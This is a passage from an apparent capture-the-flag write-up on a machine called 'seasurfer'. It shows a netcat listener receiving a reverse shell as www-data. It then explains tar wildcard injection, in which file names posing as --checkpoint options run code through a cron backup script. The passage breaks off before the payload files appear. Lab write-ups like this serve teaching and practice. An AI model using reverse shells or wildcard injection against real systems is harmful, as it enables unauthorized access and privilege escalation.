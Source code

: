```zsh
lassi@kali:~$ nc -lvnp 1234        
listening on [any] 1234 ...
connect to [$ATTACKERIP] from (UNKNOWN) [$TARGETMACHINEIP] 49566
Linux seasurfer 5.4.0-107-generic #121-Ubuntu SMP Thu Mar 24 16:04:27 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 10:44:44 up  2:40,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
kyle     pts/0    127.0.0.1        08:06    2:38m  0.00s  0.00s sleep infinity
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (744): Inappropriate ioctl for device
bash: no job control in this shell
www-data@seasurfer:/$ 
```

![Pasted image 20220419134616.png](attachments/Pasted%20image%2020220419134616.png)

## Privilege escalation

As we're still the `www-data` user, there's not much we can do - our access is mostly limited to the webserver directory and the usual **Linux** files available to the whole system. Now is a good time to fully enumerate the `/var/www/` directory we do have (mostly) full access to - and there we find something juicy:

```zsh
www-data@seasurfer:/var/www/internal/maintenance$ ls
backup.sh
www-data@seasurfer:/var/www/internal/maintenance$ cat backup.sh
#!/bin/bash

# Brandon complained about losing _one_ receipt when we had 5 minutes of downtime, set this to run every minute now >:D
# TODO investigate the reason for the downtime. Need a debugger...

cd /var/www/internal/invoices
tar -zcf /home/kyle/backups/invoices.tgz *
```

Ah, a backup script with a wildcard, a privescer's bread and butter. Judging from the comments, it's running every minute, probably in `kyle`'s crontab. Unfortunately the script isn't writable by the `www-data` user, but here's where the wildcard comes to play.

In `bash`, the wildcard `*` expands to all of the files in the specified directory. A command such as `rm *` in a directory with files `foo` and `bar` would be executed as `rm foo bar`.

Now, some programs, such as `tar` or `rsync`, which are often used for backup commands, have command-line switches that can execute files. Specifically in `tar`, there are [**checkpoint** switches](https://www.gnu.org/software/tar/manual/html_section/checkpoints.html) that can execute commands at certain parts of the runtime. Now, what would happen if a wildcard was used and some of the files in that directory were named with the `--checkpoint` syntax? Let's see.

Since we have write privileges at `/var/www/internal/invoices/`, we can introduce some checkpoints files that execute a reverse shell script:
